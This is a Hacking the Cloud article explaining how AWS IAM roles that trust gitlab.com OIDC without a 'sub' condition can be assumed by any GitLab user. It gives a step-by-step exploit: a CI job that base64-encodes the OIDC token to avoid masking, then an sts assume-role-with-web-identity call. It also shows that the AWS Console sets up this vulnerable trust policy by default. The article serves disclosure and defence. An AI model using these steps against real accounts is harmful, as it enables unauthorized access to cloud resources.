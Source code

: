 ```yaml
---
author_name: Nick Frichette
title: "Exploiting Misconfigured GitLab OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using GitLab OIDC, with a detailed, step-by-step guide.
---
```


[OpenID Connect](https://openid.net/developers/how-connect-works/) (OIDC) is a common technology used to authorize services outside of AWS to assume IAM roles. As has been shown many times in the past (examples: [one](https://securitylabs.datadoghq.com/articles/exploring-github-to-aws-keyless-authentication-flaws/), [two](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/), and [three](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess)), these roles can be misconfigured, permitting anyone in the world the ability to assume a vulnerable role.

In this article, we will explain a potential misconfiguration of AWS IAM roles when using GitLab OIDC, walk through how to exploit them step-by-step, and explain how the AWS Console causes this misconfiguration by default.

!!! warning
    In this article, we are only covering misconfigured roles with a trust relationship to the [gitlab.com](https://gitlab.com/) SaaS offering. In theory this attack could be performed on a self-hosted version of GitLab as well, however we have not tried it. If you have, feel free to open a [pull request](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls) and update this article as needed.

## IAM role misconfiguration using GitLab OIDC

According to the GitLab [documentation](https://docs.gitlab.com/ee/ci/cloud_services/aws/), AWS IAM roles that are using OIDC to authenticate should have a trust policy that looks like the following:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "gitlab.com:sub": "project_path:mygroup/myproject:ref_type:branch:ref:main"
        }
      }
    }
  ]
}
```

There are several important elements of this trust policy including:

* `Principal.Federated`: This is the identity provider that authorizes the role assumption. It is important to note that while each AWS account will have its own identity provider, this is simply a [stand-in](https://docs.gitlab.com/ee/ci/cloud_services/aws/#add-the-identity-provider) for the global `gitlab.com` provider. 
* `Action`: This is the specific type of assume role being used. In this case it is [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html).
* `gitlab.com:sub`: This is an optional condition which restricts the group, project, or branch which is permitted to assume the role.

The word "optional" from the previous sentence is why this attack is possible. There is no requirement to include a condition which restricts which specific group or project is permitted to assume a role. As a result of this __anyone with access to gitlab.com could assume a role with this misconfiguration__.

## How to exploit this misconfiguration

In this situation we will assume a role that has the following trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Principal": {
                "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
            },
            "Condition": {
                "StringEquals": {
                    "gitlab.com:aud": [
                        "https://gitlab.com"
                    ]
                }
            }
        }
    ]
}
```

!!! Note
    In this example there is no condition on the `sub` field, restricting who is permitted to assume the role. This is the default trust policy that is set when creating a role through the AWS Console. More on this [later](#how-the-aws-console-causes-this-misconfiguration-by-default). 

To exploit this misconfigured role, we must generate a JWT that can be used to authorize the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) invocation. To do this, create an account on gitlab.com or use an existing one.

Next, create a project, and in this newly created project, create a file called `.gitlab-ci.yml`. This is the configuration file for GitLab CI. Add the following content to the `.gitlab-ci.yml` file:

```yml
assume role:
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - echo ${GITLAB_OIDC_TOKEN} | base64 -w 0
```

!!! warning
    The `base64 -w 0` is required because GitLab will mask the output if you simply echo the `GITLAB_OIDC_TOKEN`. 

After adding this content to the `.gitlab-ci.yml` file, navigate to "Build > Jobs" on the left side, and click on the most recent CI job. Here you should see the OIDC token that we base64 encoded.

![gitlab.com CI Job view](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/gitlab.com.example.png)

From here, decode the base64 encoded blob (`base64 -d`) to get the original `GITLAB_OIDC_TOKEN`. This is the JWT you will use in the following [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) call.

!!! Note
    You can optionally decode this value to see that the issuer is `https://gitlab.com`. This is what is being validated in the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) and because there is no condition on the `sub` field, we are able to assume the misconfigured role.

```bash
nick.frichette@host ~ % aws sts assume-role-with-web-identity \
--role-arn <ARN of misconfigured role>
--role-session-name <session name of your choosing>
--web-identity-token  <JWT from previous step>
{
    "Credentials": {
        "AccessKeyId": "ASIAEXAMPLE123EXAMPL",
        "SecretAccessKey": "EXAMPLE123EXAMPLE123EXAMPLE123EXAMPLE123"
        "SessionToken": "[..snip..]",
        "Expiration": "2024-09-01T23:20:01+00:00"
    },
    "SubjectFromWebIdentityToken": "project_path:secres/runner-test:ref_type:branch:ref:main",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAEXAMPLE123EXAMPL:blah",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vuln-gitlab-runner-role/blah"
    },
    "Provider": "arn:aws:iam::111111111111:oidc-provider/gitlab.com",
    "Audience": "https://gitlab.com"
}
```

You have successfully used a JWT generated from gitlab.com to assume a misconfigured IAM role!

## How the AWS console causes this misconfiguration by default

If you've been following along, you may wonder, "Why would anyone make this misconfiguration? The GitLab documentation provides an example that is secure". Misconfigurations occur for a wide variety of reasons and in a wide variety of scenarios, however this one may have a more clear cut reason. 

When creating IAM roles in the AWS console, developers can choose a `trusted entity` for `Web identity`. This will pre-populate the trust policy of the IAM role and generally makes things easier. However, when a developer chooses `Web identity` and selects `gitlab.com` as the identity provider, there is no requirement for a condition on the `sub` field. __Using the AWS console to create the IAM role will generate a vulnerable role by defualt__.

![AWS Console 1](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_1.png)

![AWS Console 2](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_2.png)

Compare this behavior to [GitHub Actions](https://www.wiz.io/blog/a-security-community-success-story-of-mitigating-a-misconfiguration) or [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess). In both of these situations, AWS made changes to the AWS Console to require additional fields to mitigate this type of attack.